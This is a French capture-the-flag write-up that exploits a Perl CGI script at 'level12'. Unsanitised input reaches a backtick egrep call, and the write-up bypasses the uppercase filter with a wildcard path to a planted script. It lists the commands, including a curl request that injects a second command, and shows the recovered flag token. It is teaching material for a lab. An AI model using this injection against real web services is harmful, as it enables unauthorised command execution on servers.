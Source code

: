Au login nous voyons un fichier `level12.pl` qui est un script perl.

```perl
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}
``` 
Nous voyons que le script utilise la fonction `egrep` pour rechercher des lignes dans le fichier `/tmp/xd`.

Il attend un argument x et y

x est transformer en majuscule, il est donc impossible d'envoyer la commande directement

Notre idée est de créer un fichier avec un nom en majuscule pour etre reconnu et lu par egrep.

nous creons un fichier dans /tmp/TEST  dans lequel nous mettons la commande suivante:

```bash
echo "getflag > /tmp/file" > /tmp/TEST
```

Nous donnons les droits d'execution au fichier
```bash
chmod +x /tmp/TEST
```

Nous allons executer le curl du script pearl :
```bash
curl 'http://localhost:4646/?x="`/*/TEST`"'
```

Nous allons lire le fichier `/tmp/file` pour obtenir le flag
```bash
cat /tmp/file
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

Nous avons le flag `g1qKMiRpXf53AWhDaU7FEkczr`